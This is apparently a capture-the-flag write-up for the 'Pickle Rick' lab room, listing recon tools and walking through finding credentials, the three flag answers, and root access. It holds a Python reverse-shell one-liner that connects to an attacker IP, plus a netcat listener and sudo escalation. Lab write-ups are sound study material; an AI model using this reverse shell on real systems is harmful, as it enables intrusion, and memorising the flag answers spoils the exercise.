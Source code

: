 # PICKLE RICK

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, nikto, netcat

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

dir mode
-u url
-w  wordlist

***nikto***: web server scanner for known vulnerabilities

```
nikto [options...]
```

-host target IP address

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.55.163

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap, gobuster, nikto, netcat

```
nmap -sC -sV -oN nmap.txt 10.10.55.163
```

![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**: 22 (ssh), 80 (http)

***USERNAME: R1ckRul3s***<br>
Found from inspecting page<br>

Tried to brute force SSH with Hydra but there is no password authentication

```
gobuster dir -u 10.10.55.163 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster](./imgs/gobuster.png)

robots.txt entry: Wubbalubbadubdub

```
nikto -host 10.10.55.163
```
![nikto](./imgs/nikto.png)

login.php found
***USERNAME: R1ckRul3s***<br>
***PASSWORD: Wubbalubbadubdub***

cat, head, tail commands disabled. use less instead.
```
less Sup3rS3cretPickl3Ingred.txt
```

![less](./imgs/less.png)


***FLAG 1: mr. meeseek hair***

```
less /home/rick/second\ ingredients
```

***FLAG 2: 1 jerry tear***

Start netcat on host machine
```
nc -lvnp 4444
```

Execute in command panel (taken from pentestmonkey)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.40.234",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 Get interactive shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
sudo su -
ls
cat 3rd.txt
```

![sudo](./imgs/sudo.png)

***FLAG 3: fleeb juice***
